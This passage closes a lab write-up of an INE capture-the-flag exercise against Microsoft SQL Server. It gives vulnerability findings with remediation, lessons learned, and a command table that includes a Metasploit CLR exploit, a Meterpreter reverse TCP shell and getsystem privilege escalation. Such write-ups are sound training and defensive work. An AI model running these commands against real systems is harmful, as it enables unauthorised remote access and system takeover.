| **Flag 4** | `target.ine.local` | Elevated SYSTEM Shell | `C:\Users\Administrator\Desktop\flag4.txt` | `9686f22ba7d84fa9bdb27916d56c354c` | Visually Verified |

---

## 16. Consolidated Vulnerability Findings

### 1. Administrative CLR Assembly Execution via Permissive Database Rights
- **Severity**: **High** (Qualitative Risk Assessment; Numerical CVSS score not assigned — see Note)
- **Technical Context**: The Metasploit module `mssql_clr_payload` successfully connected to Microsoft SQL Server and dynamically modified database configurations (`TRUSTWORTHY = ON` and `clr enabled = 1`), registered a custom .NET assembly, executed the payload, and restored previous settings. In SQL Server architecture, modifying server configuration via `sp_configure` requires the server-level `ALTER SETTINGS` permission (or `sysadmin`), altering database properties requires `ALTER` on the database (or `db_owner`), and creating an unsafe assembly requires `CREATE ASSEMBLY` and `UNSAFE ASSEMBLY` permissions. These permissions and roles are distinct and not interchangeable. Because the lab evidence does not include explicit permission enumeration queries (such as `fn_my_permissions` or `sp_helpsrvrolemember`), the exact role assignment or granular permissions of the authenticated account were not independently fingerprinted.
- **CVSS Scoring Limitation**: No numerical CVSS score is assigned because the exact SQL account privileges and exploitation prerequisites were not independently established by the lab evidence. While the technique results in complete host compromise, determining a standardized CVSS metric requires verifying whether the account operated under specific granular permissions (such as `ALTER SETTINGS`) or fixed administrative roles (such as `sysadmin`), which were not fingerprinted during the exercise. Consequently, a qualitative risk assessment of **High** is maintained without assigning a speculative numerical score or assuming an unverified privilege level.
- **Remediation**:
  - Enforce strict separation of duties and least privilege on SQL accounts, ensuring non-administrative logins and application service accounts do not hold `ALTER SETTINGS`, database `ALTER`, or `UNSAFE ASSEMBLY` rights, nor membership in `sysadmin` or `db_owner`.
  - Keep CLR integration disabled unless strictly required by business applications:
    ```sql
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    EXEC sp_configure 'clr enabled', 0; RECONFIGURE;
    ```
  - Prohibit setting the `TRUSTWORTHY` property on production databases.
  - Apply CLR strict security (`clr strict security`) in newer SQL Server versions.

### 2. Potential Local Privilege Escalation via SeImpersonatePrivilege
- **Severity**: **High** (CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H — Base Score: 7.8)
- **Technical Context**: The Windows service account executing Microsoft SQL Server possessed `SeImpersonatePrivilege`. While standard for Windows services managing client connections, this privilege creates a potential local privilege-escalation opportunity when combined with token coercion or named pipe interception mechanisms. In this environment, Meterpreter's `getsystem` leveraged this privilege via Technique 5 (Named Pipe Impersonation - PrintSpooler variant) to elevate privileges to `NT AUTHORITY\SYSTEM`.
- **Remediation**:
  - Run SQL Server under a dedicated, low-privileged Managed Service Account (gMSA).
  - Strip unnecessary privileges from the service account using Windows Local Security Policy (`secpol.msc` -> User Rights Assignment).

### 3. SQL Server Post-Service Pack Patches Not Detected by Nmap
- **Severity**: **Low / Informational** (Automated Fingerprinting Observation; Not a Complete Patch Audit)
- **Observation & Limitations**: Nmap's `ms-sql-info` NSE script reported `Post-SP patches applied: false` on the Microsoft SQL Server 2012 SP3 instance (`11.00.6020.00`). This indicates that based on automated remote banner and script fingerprinting, post-SP3 security updates or cumulative hotfixes were not detected on the database service. This observation applies strictly to the SQL Server service and does not evaluate or reflect the patch state of the underlying Windows Server operating system. Furthermore, remote NSE script fingerprinting represents an automated heuristic observation, not a complete or verified patch audit.
- **Remediation**: Perform a comprehensive, authenticated patch audit of the Microsoft SQL Server instance and apply the latest supported Cumulative Updates and security patches in accordance with organizational patch management standards.

---

## 17. Lessons Learned

1. **Payload Architecture Matters**: In-memory reflective execution requires matching payload bitness (`x64`) to the target process architecture to prevent memory exceptions and service instability.
2. **Database Hardening Extends to the OS**: Restricting database logins is insufficient if the database engine itself possesses privileges capable of manipulating Windows security tokens.
3. **Local Privilege Escalation via SeImpersonatePrivilege**: `SeImpersonatePrivilege` is standard for service accounts, but presents a viable local escalation opportunity when combined with token coercion or named pipe impersonation techniques (such as PrintSpooler or Potato family exploits).
4. **Structured Recursive Searching**: When investigating an unfamiliar system for flags or sensitive files, using targeted recursive command-line filters (`dir /s /b *.txt`) rapidly eliminates noise and exposes hidden artifacts.

---

## 18. Tools and Commands Reference

| Phase | Tool | Command Line | Operational Purpose |
| :--- | :--- | :--- | :--- |
| **Port Scanning** | Nmap | `nmap -sV -sC -p- target.ine.local` | Comprehensive TCP sweep and MSSQL fingerprinting. |
| **Exploitation** | Metasploit | `use exploit/windows/mssql/mssql_clr_payload` | Selects the CLR assembly execution exploit module. |
| **Configuration** | Metasploit | `set rhosts target.ine.local` | Configures target host. |
| **Configuration** | Metasploit | `set payload windows/x64/meterpreter/reverse_tcp` | Configures 64-bit Meterpreter reverse TCP payload. |
| **Execution** | Metasploit | `run` | Executes the exploit and opens Meterpreter session. |
| **Shell Access** | Meterpreter | `shell` | Spawns an interactive `cmd.exe` process. |
| **Privilege Audit** | Meterpreter | `getprivs` | Enumerates enabled Windows process privileges. |
| **Privilege Escalation**| Meterpreter | `getsystem` | Escalates to `NT AUTHORITY\SYSTEM` via named pipe impersonation. |
| **File Retrieval** | Windows CLI | `type C:\flag1.txt` | Reads Flag 1 from root drive. |
| **Directory Search** | Windows CLI | `dir C:\Windows\System32\*.txt /s /b` | Recursively searches System32 for text files. |
| **File Retrieval** | Windows CLI | `type C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt` | Reads Flag 3. |
| **File Retrieval** | Windows CLI | `type C:\Users\Administrator\Desktop\flag4.txt` | Reads Flag 4. |

---

## 19. Evidence and Screenshot Index

All primary evidence has been organized and indexed. Items where visual captures exist are embedded; pending captures are explicitly documented:

| # | Suggested Filename | Status | Description & Key Evidence |
| :---: | :--- | :---: | :--- |
| **01** | `01-lab-overview.png` | **Available** | INE challenge dashboard confirming 4 of 4 flags captured and lab finished. |
| **02** | `02-nmap-mssql-service-detection.png` | **Available** | Nmap scan report identifying MSSQL 2012 SP3 on port 1433 and Windows Server 2012 R2. |
| **03** | `03-metasploit-mssql-exploit-search.png` | *Pending Capture* | Search query in msfconsole (`search mssql_clr_payload`). |
| **04** | `04-mssql-exploit-configuration.png` | **Available** | Module options (`rhosts`, `payload windows/x64/...`) and exploit run output. |
| **05** | `05-meterpreter-session-established.png` | *Documented in 04* | Active Meterpreter session 1 opened output (captured in Screenshot 04). |
| **06** | `06-flag1-retrieval.png` | **Available** | Interactive Windows shell, `dir C:\`, and `type flag1.txt` extraction. |
| **07** | `07-flag2-access-denied.png` | **Available** | Attempting `cd config` inside System32 returning `Access is denied.` |
| **08** | `08-meterpreter-privilege-enumeration.png` | **Available** | Meterpreter `getprivs` displaying `SeImpersonatePrivilege` and `getsystem` elevation. |
| **09** | `09-getsystem-system-privilege.png` | *Documented in 08* | Technique 5 Named Pipe Impersonation output (captured in Screenshot 08). |
| **10** | `10-flag2-retrieval.png` | **Available** | Elevated shell in `C:\Windows\System32\config` displaying `flag2.txt`. |
| **11** | `11-flag3-recursive-txt-search.png` | **Available** | `dir C:\Windows\System32\*.txt /s /b` search and Flag 3 extraction. |
| **12** | `12-flag3-retrieval.png` | *Documented in 11* | `type EscaltePrivilageToGetThisFlag.txt` output (captured in Screenshot 11). |
| **13** | `13-flag4-administrator-desktop.png` | **Available** | Navigating to `C:\Users\Administrator\Desktop` and extracting Flag 4. |

---

## 20. References

- [MITRE ATT&CK: Exploitation for Client Execution (T1203)](https://attack.mitre.org/techniques/T1203/)
- [MITRE ATT&CK: Access Token Manipulation (T1134)](https://attack.mitre.org/techniques/T1134/)
- [MITRE ATT&CK: Access Token Manipulation: Token Impersonation/Theft (T1134.001)](https://attack.mitre.org/techniques/T1134/001/)
- [MITRE ATT&CK: File and Directory Discovery (T1083)](https://attack.mitre.org/techniques/T1083/)
- [Microsoft Docs: Common Language Runtime (CLR) Integration Programming Concepts](https://learn.microsoft.com/en-us/sql/relational-databases/clr-integration/common-language-runtime-clr-integration-programming-concepts)
- [Metasploit Exploit Module: mssql_clr_payload](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/mssql/mssql_clr_payload.rb)
- [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [CWE-250: Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html)
